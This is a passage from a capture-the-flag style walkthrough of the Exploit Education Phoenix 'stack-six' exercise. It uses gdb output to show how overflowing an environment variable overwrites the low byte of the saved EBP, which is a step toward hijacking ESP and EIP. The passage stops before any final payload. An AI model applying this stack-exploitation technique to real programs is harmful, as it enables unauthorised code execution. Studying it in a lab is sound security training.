 This is a problem because the maximum size we can write is 127 + 15 = 142.
That's enough to crash the program, but not enough to directly overwrite EIP.
Let's see if there is anything we can control:

```bash
$- export ExploitEducation=`python -c 'print "A" * 127'`
(gdb) break *greet+133
Breakpoint 1 at 0x804860a
(gdb) r
Starting program: /opt/phoenix/i486/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education

Breakpoint 1, 0x0804860a in greet ()
(gdb) info reg
eax            0x8049930           134519088
ecx            0x0                 0
edx            0x0                 0
ebx            0x41414141          1094795585
esp            0xffffd54c          0xffffd54c
ebp            0xffffd541          0xffffd541
esi            0xffffd604          -10748
edi            0x1                 1
eip            0x804860a           0x804860a <greet+133>
eflags         0x282               [ SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) x/xw 0xffffd541
0xffffd541:     0x41414141
```

Using the maximum overflow length, we can observe that we control the LSB of the EBP register.
How is this helpful in controlling execution? During the return from `greet` EBP is used to restore ESP. Then, the value from the top of ESP is used to load EIP in order to continue execution. Since we control the value at the overwritten EBP address (0x41414141), we should be able to overwrite EIP.

saved ebp: 0xffffd558 @ 0xffffd528

In the debugger we can see that we overwrite the last byte of the saved EBP.

```bash
0xffffd520:     0x41414141      0x41414141      0xffffd541      0x0804865f
```

Using this technique, we can manipulate ESP in the `main` function. Just before leaving `main`, its value is: `0xffffd545 = overwritten EBP (0xffffd541) + 0x4`.

Just before leaving `main` the value stored at that address is 0x0, leading to a crash during return (SIGSEGV). The goal is now to manipulate the last byte of the stored EBP, so that EBP+0x4 points to a value we control.
